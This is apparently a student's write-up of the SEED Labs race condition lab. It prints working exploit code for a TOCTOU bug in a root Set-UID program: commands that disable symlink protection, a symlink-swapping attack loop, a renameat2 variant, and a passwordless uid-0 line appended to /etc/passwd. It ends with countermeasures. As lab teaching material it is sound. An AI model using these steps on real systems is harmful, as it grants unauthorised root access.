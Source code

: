 # Race-Condition-Seedsecurity
Race condition vulnerability seed security lab solution
### Initial Setup
Symbolic link (also symlink or soft link) is a term for any file that contains a reference to another file or directory in the form of an absolute or relative path and that affects pathname resolution. According to the documentation, “symlinks in world-writable sticky
directories (e.g. /tmp) cannot be followed if the follower and directory owner do not match the symlink
owner.” 

In order to perform the exploit in Ubuntu, this protection needs to be disabled using command 
```
// On Ubuntu 12.04, use the following:
$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
// On Ubuntu 16.04, use the following:
$ sudo sysctl -w fs.protected_symlinks=0
```

### A Vulnerable Program
The program [vulp.c](vulp.c) contains race condition vulerability. It appends a string of user input to the end of
a temporary file */tmp/XYZ*. Since the code runs with the root privilege, i.e., its effective use ID is zero, it
can overwrite any file. To prevent itself from accidentally overwriting other people’s file, the program first
checks whether the real user ID has the access permission to the file /tmp/XYZ; that is the purpose of the
`access()` function at line no. 16. 

If the real user ID indeed has the right, the program opens the file in line no. 17 and
append the user input to the file. 

Due to the time window between the check (access()) and the use (fopen()),
there is a possibility that the file used by `access()` is different from the file used by `fopen()`, even
though they have the same file name /tmp/XYZ. 

The goal of this lab is to homehow point make /tmp/XYZ a symbolic link pointing to a protected file, such as */etc/passwd*, so that the attacker can append user input to */etc/passwd* and as a result gain the root privilage. With root privilege, one can overwrite any file.

Use the following commands to compile the above code, and turn its binary into a Set-UID
program that is owned by the root: 
```
$ gcc vulp.c -o vulp
$ sudo chown root vulp
$ sudo chmod 4755 vulp
```

### Task 1: Choosing Our Target
*/etc/passwd* is not writable by normal user. If one successes to add a record to the password file such that the record points to the root user with uid=0, they can get the root access of the machine. 

Inside the password file, each user has an entry, which consists of seven fields separated by
colons (:). `root:x:0:0:root:/root:/bin/bash` this is the entry for root user. It has a 0 on the uid field (3rd column). So, any user with uid=0 is be root user.

Each entry also contains a password field, which is the second field. In the example above, the field is
set to "x", indicating that the password is stored in another file called /etc/shadow (the shadow file). But, if there is a password hash instead of x, operating system does not look for the password in the shadow file. The password field does not hold the actual password; it holds the one-way hash value of the password. To add this hash value, one can simply add a new user with a specific password and copy the password shown in */etc/shadow* file and paste it to the password section (2nd cloumn) of */etc/passwd* file. For ease, one can simply use the password of seed, because the password is deed (known to the seed user).

Interestingly, there is a magic
value used in Ubuntu live CD for a password-less account, and the magic value is `U6aMy0wojraho`. If this value is put in the password field of a user entry, user only needs to
hit the return key when prompted for a password.

`test:U6aMy0wojraho:0:0:test:/root:/bin/bash` this can an entry for */etc/passwd* with username test and no password.

### Task 2.A: Launching the Race Condition Attack

In order to make the attack successful, it is necessary to meet the access() condition at line no. 16. And then link the /tmp/XYZ file to /etc/passwd so that any entry added to /tmp/XYZ is reflected to /etc/passwd. But since it is not allowed to modify the vulnerable program, attacker needs to create another program that unlinks /tmp/XYZ and links it to /etc/passwd. 
```
unlink("/tmp/XYZ");
symlink("/etc/passwd","/tmp/XYZ");
```
Linux command `ln -sf` can also be used to create symbolic links. Here the `f` option means
that if the link exists, remove the old one first. The implementation of the "ln" command actually uses
`unlink()` and `symlink()`.

But, because it is not certain when **context switching** would occur in the vulnerable program (between access() and open() lines), it is necessary to run the the exploitable program in a loop. To increase the probability of the attack, the vulnerable program can also be run in loop until the exploit succeeds. According to the document, [loop.sh](loop.sh) runs the *vulp* program a number of times until the attack gets successful. 
```
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" = "$new" ] 
do
./vulp < passwd_input
new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```
Input in this program, [passwd_input](passwd_input) contains `test:U6aMy0wojraho:0:0:test:/root:/bin/bash`. So everytime the loop runs, it addes this content to /tmp/XYZ file unless the exploit gets successful. When this content is added to /etc/passwd file, the exploit gets successful. Here the loop runs everytime unless /etc/passwd is modified.

To automate the exploitable program, [attacking_script.c](attacking_script.c) can be used. 
```
#include <unistd.h>
int main(){
  while(1){
    unlink("/tmp/XYZ");
    symlink("/etc/passwd","/tmp/XYZ");
  }
  return 0;
}
```

This c program needs to be first compiled using command `gcc -o exploit attacking_script.c`. Next, exploit and vulnerable program needs to run using command `./exploit` and `sudo ./loop.sh` respectively.This process leads to a new entry in /etc/passwd and on getting a change in the file, vulnerable program stops with a message "STOP... The passwd file has been changed". Here, ./exploit just links and unlinks /tmp/XYZ such that in any trial, `unlink("/tmp/XYZ");`, `if(!access(fn, W_OK))`, `symlink("/etc/passwd","/tmp/XYZ");` and `fopen(fn, "a+")` runs respectively in a sequence. So that attacker can pass assess() function and then link it to /etc/passwd and add an entry there. 
>`./exploit` and `sudo ./loop.sh` are to be run in two different terminal windows.
![](Task2_result.PNG)

### Task 2.B: An Improved Attack Method
There are times when even though everything is done correctly, it does not lead to a successful attack. This is because the ownership of *tmp/XYZ* file changes to root. 
![](Task2_problem.PNG)
The main reason for the situation to happen is that the attack program is context switched out right after
it removes /tmp/XYZ (i.e., `unlink()`), but before it links the name to another file (i.e., `symlink()`).
Remember, the action to remove the existing symbolic link and create a new one is not atomic (it involves
two separate system calls), so if the context switch occurs in the middle (i.e., right after the removal of
/tmp/XYZ), and the target Set-UID program gets a chance to run its `fopen(fn, "a+")` statement, it
will create a new file with root being the owner. After that, the attack program can no longer make changes
to /tmp/XYZ.

>Basically, using the `unlink()` and `symlink()` approach, there is a race condition in the attack program. Therefore, while trying to exploit the race condition in the target program, the target program may accidentally “exploit” the race condition in the attack program, defeating the attack. How ironic!

To solve this problem, `unlink()` and `symlink()` needs to be atomic. The [improved.c](improved.c) program first makes two symbolic links `/tmp/XYZ` and `/tmp/ABC`, and then uses the `SYS_renameat2` system call to atomically switch them. This allows to change what /tmp/XYZ
points to without introducing any race condition. It should be noted that there is no function wrapper for the
SEED Labs – Race Condition Vulnerability Lab 6
SYS renameat2 system call in the libc library on Ubuntu 16.04, so it is necessary to  invoke the system call
using `syscall()`, instead of invoking it like a normal function call.

```
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>
int main()
{
unsigned int flags = RENAME_EXCHANGE;
unlink("/tmp/XYZ"); 
symlink("/dev/null", "/tmp/XYZ");
unlink("/tmp/ABC"); 
symlink("/etc/passwd", "/tmp/ABC");
syscall(SYS_renameat2, 0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
return 0;
}
```
Now, on compiling this improved.c using command `gcc -o improve improved.c`, and then on running loop.sh using `sudo ./loop.sh` and then running improve `./improve`, it adds an entry to the /etc/passwd file without the problem of root being /tmp/XYZ's owner.
>`sudo ./loop.sh` must be running when `./improve` is run in different terminal windows.

### Task 3: Countermeasure: Applying the Principle of Least Privilege
When `seteuid(1000);` is added to the vulnerable program (after line 16, after access() check), it returns segmentation fault during execution of the attack and the attack is not successful. This is because during the check process, it makes sure that effective user id is 1000.
![](Task3_result.png)
> You can also get the real and effective uid before the access() line using `getuid()` and `geteuid()` functions respectively. Because I already knew the euid of seed, i.e. 1000, I directly provided that value.

### Task 4: Countermeasure: Using Ubuntu’s Built-in Scheme
Ubuntu 10.10 and later come with a built-in protection scheme against race condition attacks. When this protection is on, it does not permit the symlink in /tmp to be followed if the follower and directory owner do not match the symlink. This is why, the attack with this mode on gives "No permission" error.
```
// On Ubuntu 12.04, use the following command:
$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
// On Ubuntu 16.04, use the following command:
$ sudo sysctl -w fs.protected_symlinks=1
```
![](Task4_result.PNG)

